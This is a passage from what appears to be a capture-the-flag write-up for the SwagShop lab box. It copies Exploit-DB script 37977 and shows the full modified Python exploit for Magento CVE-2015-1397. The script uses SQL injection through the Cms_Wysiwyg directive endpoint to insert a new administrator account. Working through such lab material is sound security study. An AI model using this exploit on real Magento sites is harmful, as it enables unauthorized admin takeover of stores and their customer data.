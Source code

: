 - From the description, we can tell that if the Magento version is vulnerable, the script will create a new admin account.

Let’s mirror the script and make some modifications.

```bash
┌──(krakenn㉿Phoenix)-[~/CPTS/Boxes/SwagShop/Scripts]
└─$ searchsploit -m xml/webapps/37977.py
  Exploit: Magento eCommerce - Remote Code Execution
      URL: https://www.exploit-db.com/exploits/37977
     Path: /usr/share/exploitdb/exploits/xml/webapps/37977.py
    Codes: CVE-2015-1397, OSVDB-121260
 Verified: False
File Type: ASCII text
Copied to: /home/krakenn/CPTS/Boxes/SwagShop/Scripts/37977.py

┌──(krakenn㉿Phoenix)-[~/CPTS/Boxes/SwagShop/Scripts]
└─$ mv 37977.py Create-User.py

┌──(krakenn㉿Phoenix)-[~/CPTS/Boxes/SwagShop/Scripts]
└─$ vim Create-User.py

```

**Modified Script:**

```python
import requests
import base64
import sys

target = "http://swagshop.htb/index.php"

if not target.startswith("http"):
    target = "http://" + target

if target.endswith("/"):
    target = target[:-1]

target_url = target + "/admin/Cms_Wysiwyg/directive/index/"

q="""
SET @SALT = 'rp';
SET @PASS = CONCAT(MD5(CONCAT( @SALT , '{password}') ), CONCAT(':', @SALT ));
SELECT @EXTRA := MAX(extra) FROM admin_user WHERE extra IS NOT NULL;
INSERT INTO `admin_user` (`firstname`, `lastname`,`email`,`username`,`password`,`created`,`lognum`,`reload_acl_flag`,`is_active`,`extra`,`rp_token`,`rp_token_created_at`) VALUES ('Firstname','Lastname','email@example.com','{username}',@PASS,NOW(),0,0,1,@EXTRA,NULL, NOW());
INSERT INTO `admin_role` (parent_id,tree_level,sort_order,role_type,user_id,role_name) VALUES (1,2,0,'U',(SELECT user_id FROM admin_user WHERE username = '{username}'),'Firstname');
"""


query = q.replace("\n", "").format(username="0xkrakenn", password="0xkrakenn")
pfilter = "popularity[from]=0&popularity[to]=3&popularity[field_expr]=0);{0}".format(query)

r = requests.post(target_url,
                  data={"___directive": "e3tibG9jayB0eXBlPUFkbWluaHRtbC9yZXBvcnRfc2VhcmNoX2dyaWQgb3V0cHV0PWdldENzdkZpbGV9fQ",
                        "filter": base64.b64encode(pfilter),
                        "forwarded": 1})
if r.ok:
    print "WORKED"
    print "Check {0}/admin with creds 0xkrakenn:0xkrakenn".format(target)
else:
    print "DID NOT WORK"
```